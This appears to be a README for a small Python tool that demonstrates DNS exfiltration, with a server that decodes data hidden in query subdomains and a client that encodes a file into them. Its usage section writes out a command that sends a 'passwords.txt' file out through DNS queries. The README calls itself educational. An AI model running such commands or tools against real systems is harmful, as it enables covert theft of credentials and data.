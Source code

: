## DNS-Exfiltration

### Overview

This project contains two scripts: `server.py` and `client.py`. These scripts are used to demonstrate DNS exfiltration, where data is covertly sent from a client to a server using DNS queries.

### server.py

The `server.py` script sets up a DNS server that listens for DNS queries. It extracts data from the subdomain of incoming DNS queries, decodes it, and saves it to a specified file.

### client.py

The `client.py` script is used to send data to the DNS server by encoding the data in the subdomain of DNS queries. 

### Prerequisites

- Python 3.x
- dnslib
- colorama

You can install the required Python packages using pip:

### Usage

#### Running the DNS Server

1. Run the `server.py` script with the `-o` or `--output` option to specify the output file where the exfiltrated data will be saved.

```sh
python3 ./server.py -o output.txt
```

The server will start listening on port 5053 for incoming DNS queries.

#### Running the DNS Client

1. Use the `client.py` script to send data to the DNS server. This script will encode the data and send it in the subdomain of DNS queries to the server.

Here's an example of how to run the client script:

```sh
python3 ./client.py -d "google.com" -f "passwords.txt"
```

In this example, `google.com` is the domain to which the DNS queries will be sent, and `passwords` is the file containing the data to be exfiltrated.

![](https://i.imgur.com/f2D0Z7p.png)

### Note

This project is for educational purposes only. Unauthorized data exfiltration is illegal and unethical. Always obtain proper authorization before testing any security mechanism.